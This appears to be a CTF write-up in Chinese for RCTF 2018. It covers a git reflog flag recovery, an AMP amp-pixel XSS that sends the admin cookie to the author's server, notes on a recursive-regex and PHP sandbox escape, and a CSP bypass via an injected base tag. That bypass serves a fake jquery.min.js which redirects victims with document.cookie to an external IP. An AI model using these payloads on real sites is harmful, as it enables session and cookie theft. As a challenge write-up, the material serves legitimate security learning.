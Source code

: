 # RCTF 2018
剛打完DEFCON CTF，聽到又有大陸這邊辦的比賽就有來打了，整體上XSS的出題比率挺高的！  

# Misc - git
這次比賽最水的一題，還是留個wp在這好了，觀念是從`.git`還原倉庫的程式碼  
```php
shimaodeMBP:git shimao$ git reflog
	22d3349 (HEAD -> master) HEAD@{0}: checkout: moving from develop to master
	f4d0f6d (develop) HEAD@{1}: reset: moving to f4d0f6d
	f4d0f6d (develop) HEAD@{2}: reset: moving to f4d0f6d
	22d3349 (HEAD -> master) HEAD@{3}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{4}: checkout: moving from master to develop
	22d3349 (HEAD -> master) HEAD@{5}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{6}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{7}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{8}: checkout: moving from develop to master
	22d3349 (HEAD -> master) HEAD@{9}: rebase -i (finish): returning to refs/heads/develop
	22d3349 (HEAD -> master) HEAD@{10}: rebase -i (start): checkout 22d3349
	f671986 HEAD@{11}: checkout: moving from master to develop
	22d3349 (HEAD -> master) HEAD@{12}: checkout: moving from develop to master
	f671986 HEAD@{13}: checkout: moving from master to develop
	22d3349 (HEAD -> master) HEAD@{14}: checkout: moving from rctf to master
	f671986 HEAD@{15}: commit: Revert
	f4d0f6d (develop) HEAD@{16}: commit: Flag
	22d3349 (HEAD -> master) HEAD@{17}: checkout: moving from master to rctf
	22d3349 (HEAD -> master) HEAD@{18}: commit (initial): Initial Commit
shimaodeMBP:git shimao$ git reset --hard f4d0f6d
	HEAD is now at f4d0f6d Flag
shimaodeMBP:git shimao$ ls
	HelloWorld.txt flag.txt
shimaodeMBP:git shimao$ cat flag.txt
	RCTF{gIt_BranCh_aNd_l0g}
```
提交flag`RCTF{gIt_BranCh_aNd_l0g}`

# Web - amp
這題用`name`作為GET請求的參數，但是一般的xss卻受到CSP阻饒  
```php
shimaodeMBP:webcocktail shimao$ curl http://amp.2018.teamrois.cn -v

* Rebuilt URL to: http://amp.2018.teamrois.cn/
*   Trying 149.28.139.172...
* TCP_NODELAY set
* Connected to amp.2018.teamrois.cn (149.28.139.172) port 80 (#0)
> GET / HTTP/1.1
> Host: amp.2018.teamrois.cn
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: nginx/1.14.0 (Ubuntu)
< Date: Mon, 21 May 2018 14:13:53 GMT
< Content-Type: text/html; charset=UTF-8
< Content-Length: 1930
< Connection: keep-alive
< X-Powered-By: PHP/7.2.5
< Content-Security-Policy: script-src 'nonce-ad0eab17ed448e21824e6536850f5913' 'strict-dynamic'; style-src 'unsafe-inline'
< Set-Cookie: FLAG=flag_is_in_admin_cookie
< Vary: Accept-Encoding
<
<!doctype html>
<html ⚡>
  <head>
    <meta charset="utf-8">
    <script async src="https://cdn.ampproject.org/v0.js" nonce="ad0eab17ed448e21824e6536850f5913"></script>
    <title>⚡</title>
    <link rel="canonical" href="http://example.ampproject.org/article-metadata.html">
    <meta name="viewport" content="width=device-width,minimum-scale=1,initial-scale=1">
    <script type="application/ld+json" nonce="ad0eab17ed448e21824e6536850f5913">
      {
        "@context": "http://schema.org",
        "@type": "NewsArticle",
        "headline": "Open-source framework for publishing content",
        "datePublished": "2015-10-07T12:02:41Z",
        "image": [
          "logo.jpg"
        ]
      }
    </script>
    <style amp-boilerplate>body{-webkit-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-moz-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-ms-animation:-amp-start 8s steps(1,end) 0s 1 normal both;animation:-amp-start 8s steps(1,end) 0s 1 normal both}@-webkit-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-moz-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-ms-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-o-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}</style><noscript><style amp-boilerplate>body{-webkit-animation:none;-moz-animation:none;-ms-animation:none;animation:none}</style></noscript>
    <style amp-custom>body {background:url(background.jpg) no-repeat;background-size:cover;}html,body,.main{min-height:100vh;width:100%;color:#fff;}.main{align-items: center;display: flex;justify-content: center; flex-direction: column;}.main *{ zoom: 2;}.grecaptcha-badge{display: none}</style>
  </head>
  <body>
      <div class="main">
        <h1>HEY</h1>
        <h3>INPUT YOUR NAME AFTER QUERYSTRING</h3>
      </div>
  </body>
</html>
* Connection #0 to host amp.2018.teamrois.cn left intact
```
1. 解讀上面的CSP發現我們的`<script>`如果沒有`nonce`隨機數就不能執行  
2. 解讀提示會發現這個頁面用的可能是AMP標準  
3. 上面的`set-cookie`header中說`flag`在admin的cookie裡  
結論：我們想辦法用AMP tag來獲取admin`flag`的cookies  
payload:`url?name=<amp-pixel src="http://my_server/?q=CLIENT_ID(FLAG)"></amp-pixel>`  
原本收到的request會長這樣：`?q=flag_is_in_admin_cookie`  
再按下`STOP TRACKING ME`的按鈕之後  
就會得到：`?q=RCTF%7BEl_PsY_CONGRO0_sg-%7d`  
GET FLAG!!  
![](https://github.com/shinmao/CTF-writeups/blob/master/RCTF2018/screenshot/amp.png)  

# Web - r-cursive
這題有兩個關卡:  
1. 繞過regex  
2. 沙箱脫逸  
首先來解讀regex  
```php
/[^\W_]+\((?R)?\)/
```
前面的`[^\W_]`是指任意字但是不能為非字母,非數字,非底線的字元  
後面`(?R)?`就很有意思了,我也是賽後找到教學才懂的,我們要拆解成`(?R)`和`?`兩部分: 我們可以把這個recursive的正則理解成**paste pattern**,然後再套上第二部分的`?`代表0個或1個,整個正則就變成下面這副德性:  
```php
/[^\W_]+\([^\W_]+\([^\W_]+\((?R)?\)\)\)/
```
關於這部分我非常推薦這篇文章[Recursive Regular Expressions](http://www.rexegg.com/regex-recursion.html)  
再來就是第二關的沙箱脫逸  
賽中其實我也在`phpinfo`的頁面花了非常多的時間找線索,無奈與**沙箱逃逸**真的沒有交過手 :cry:  
我可以看到`open_basedir`的路徑是`/var/www/sandbox/xxxxxxxxx/:/tmp/`,`auto_prepend_file`設定的腳本則是`/var/www/sandbox/init.php`  
在這裡我必須依賴的知識點就是`auto_prepend`選項設定執行的腳本可以通過`ini_set('open_basedir',"/var/www/hosts/$hostname/:/tmp/");`來設置`open_basedir`  
所以我們只要改`hostname`應該就可以逃逸沙箱了  
[wp寫得非常詳細](https://xz.aliyun.com/t/2347#toc-2),因此我在這邊只截錄自己的重點

# Web - rblog
網站頁面有post的功能，經過幾次測試之後我們可以推斷`title`的部分有xss的漏洞(content的部分被轉譯得相當乾淨
```php
$ curl -I http://rblog.2018.teamrois.cn/
HTTP/1.1 200 OK
Date: Sat, 19 May 2018 17:42:22 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.2.5
Referrer-Policy: strict-origin
X-Frame-Options: DENY
Content-Security-Policy: default-src 'none'; script-src 'nonce-00bf5d37284fd8cabb55d18a943b5fc3'; frame-src https://www.google.com/recaptcha/; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src fonts.gstatic.com; img-src 'self'
Content-Type: text/html; charset=UTF-8
```
接下來是CSP的解讀：  
```php
default-src 'none'; 
script-src 'nonce-00bf5d37284fd8cabb55d18a943b5fc3';
```
我們必須繞過隨機數  
這時我一時興起就把CSP丟進了[google csp evaluator](https://csp-evaluator.withgoogle.com/):  
```php
errorbase-uri [missing]
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to 'none' or 'self'?
```
這個evaluator相當於告訴我們可以用`<base>`繞過，而exploit的概念就是相對路徑...  
在我們的blog post中可以發現幾個引入的js  
```php
<script nonce="10b2226d5736a0e6ba9641afad038c03" src="/assets/js/jquery.min.js"></script>
```
因此如果我們的post中有`<base href="http://xxx/">`，那引入的js也會變成`http://xxx/assets/js/jquery.min.js`。  
這是一個重大的發現，因為如果`xxx`是我們可控的，我們就可以進而偽造一個沒有CSP的`jquery.min.js`！  
開始exploit前我們先整理一下攻擊思路：  
1. 送出帶有`<base>`標籤的post，進而改變要請求的`jquery.min.js`  
2. 官方有個功能，我們report我們的post，而他會去看... 在他看的時候就會對我們的`jquery.min.js`發出請求  
3. 我們開一個端口接收這個請求帶著的cookie就大吉大利囉  

Exploit：  
`title`部分輸入`<base href="http://18.216.228.129:8080/" />`，此ip為我可控的server  
![](https://github.com/shinmao/CTF-writeups/blob/master/RCTF2018/screenshot/rblog.png)  
創建`http://18.216.228.129:8080/assets/js/jquery.min.js`，內容為:  
```php
function hello(){
	location.href="http://18.216.228.129:8000/?"+document.cookie;
}
hello();
```
這時候主動去翻翻我們的blog post，會被直接跳轉到`18.216.228.129:8000`的頁面，同理admin也是一樣，我們只要收到request就可以查到cookie了！
